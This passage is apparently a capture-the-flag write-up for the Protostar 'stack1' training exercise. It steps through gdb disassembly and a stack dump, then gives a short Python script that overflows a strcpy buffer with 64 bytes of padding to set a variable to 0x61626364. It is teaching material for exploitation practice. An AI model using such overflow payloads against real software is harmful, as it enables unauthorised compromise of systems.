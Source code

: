 ```shell
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```

It's clear that modified is located at **[esp+0x5c]**, while the two arguments for strcpy are stored at **[esp+0x4]** and **[esp]**. Now, I will set a breakpoint after **strcpy**, at `0x080484a7` to see how our input is stored on the stack.

``` shell
(gdb) break *0x080484a7
(gdb) r AAAAAAAAAAAAAAAAAAAAAAA
Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=2, argv=0xbffff834) at stack1/stack1.c:18
...
(gdb) x/24wx $esp
0xbffff720:     0xbffff73c      0xbffff971      0xb7fff8f8      0xb7f0186e
0xbffff730:     0xb7fd7ff4      0xb7ec6165      0xbffff748      0x41414141
0xbffff740:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff750:     0x00414141      0x080496fc      0xbffff788      0x08048509
0xbffff760:     0xb7fd8304      0xb7fd7ff4      0x080484f0      0xbffff788
0xbffff770:     0xb7ec6365      0xb7ff1040      0x080484fb      0x00000000
(gdb) x/wx $esp+0x5c
0xbffff77c:     0x00000000
```

Just by observing the stack, we have to padding 16 * 4 bytes since our input starts from `0xbffff73c`, and the last 4 bytes is `0x61626364` in little-endian format.

Here is my script for this level:

``` python
import struct

padding = "A" * 16 * 4
modified = struct.pack("I", 0x61626364)

print padding + modified
```

And we solve this level. YAY ^^

``` shell
user@protostar:~$ python script.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
user@protostar:~$ /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```
